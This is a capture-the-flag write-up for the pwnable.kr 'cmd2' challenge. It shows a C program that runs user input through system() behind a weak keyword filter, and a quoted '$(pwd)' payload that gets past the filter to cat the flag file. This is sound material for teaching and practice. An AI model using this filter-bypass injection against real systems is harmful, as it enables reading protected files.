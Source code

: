 # pwnable.kr -- Toddler's Bottle -- cmd2
This is an anvanced challenge of `cmd1`. The program filters more words, but it still can be solved.

## 1. Challenge
  > Daddy bought me a system command shell.  
  > but he put some filters to prevent me from playing with it without his permission...  
  > but I wanna play anytime I want!  
  >   
  > ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)  

## 2. Solution
  * Connect target and see the source code. But this time, you'd pay attention to the login password. The password is the flag of `cmd1` challenge. I will never tell flags in this repository, so you'd better to solve `cmd1` challenge first. Here is the source code of cmd2:
    ```c
    #include <stdio.h>
    #include <string.h>

    int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
    }

    extern char** environ;
    void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
    }

    int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
    }

    ```

  * You can find there are more substrings or characters filtered including the most important `"/"`. There is still one way to make character `"/"` shown in `system(argv[1])`.

  * If we go back to `"/"` directory and type:
    ```c
    $ echo $(pwd)
    ```
    you can get a `"/"` character. So that means `"$(pwd)"` is escaped to `"/"`. However if you directly pass it to program `cmd2`, it still will be filtered. So we must insure that `"$(pwd)"` shall not be escaped while passing arguments.

  * One of solutions is to use a pair of single quote marks wrap the argument like this:
    ```bash
    $ /home/cmd2/cmd2 '$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*'
    ```
    then you can see the flag.
